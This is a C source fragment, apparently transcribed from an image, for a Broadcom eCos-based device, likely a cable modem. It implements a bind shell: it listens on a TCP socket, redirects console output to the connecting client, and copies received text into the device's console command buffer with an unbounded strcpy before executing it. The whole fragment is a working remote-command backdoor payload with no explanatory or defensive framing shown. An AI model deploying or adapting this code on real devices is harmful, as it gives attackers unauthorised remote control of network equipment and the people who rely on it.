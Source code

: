     if ((sockfd = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
        printf("[!] socket error - %s\n", strerror(errno));
    }

    // without sleep, the sockfd does not work for some reason
    sleep(2);

    if (bind(sockfd, host, 0x2020) != 0) {
        printf("[!] bind error - %s\n", strerror(errno));
        return -1;
    }
    printf("[+] bind successful\n");

    if (listen(sockfd, 0) < 0) {
        printf("[!] listen error - %s\n", strerror(errno));
        return -1;
    }

    printf("[+] listen successful");

    for(;;){
        new_addrlen = sizeof(client_addr);
        client_sockfd = accept(sockfd, (struct sockaddr *)&client_addr, &new_addrlen);
        if(client_sockfd < 0){
            printf("[!] accept error - %s\n", strerror(errno));
            return -1;
        }
        void *buffer = malloc(0x100);
        if(buffer == NULL){
            printf("[!] Error when allocating buffer.\n");
            return -1;
        }

        void *console_instance = BcmConsoleGetSingletonInstance();
        int *fp = (int*)cyg_fp_get(client_sockfd);
        cyg_fd_assign(0x1, fp);
        cyg_fp_free(fp);

        while (1)
        {
            bzero(buffer, 0x100);
            recvd = recv(client_sockfd, buffer, 0x100, 0x0);
            if (recvd > 0) {
                char *command_buffer = ((char *)console_instance);
                command_buffer += COMMAND_OFFSET;
                strcpy(command_buffer, buffer);
                if(strncmp("exit", buffer, 4) == 0) {
                    break;
                }
                command_buffer[recvd+1] = 0x0;
                BcmConsoleExecuteCurrentCommand(console_instance);
            }
            else{
                // -1 is error; 0 is disconnected
                break;
            }
        }
        close(client_sockfd);
        break;
    }
    printf("[+] Quitting. Reassigning console.\n");
    int* fp = (int*)cyg_fp_get(2);
    cyg_fd_assign(0x01, fp);
    cyg_fp_free(fp);
    close(sockfd);
    return 0;
}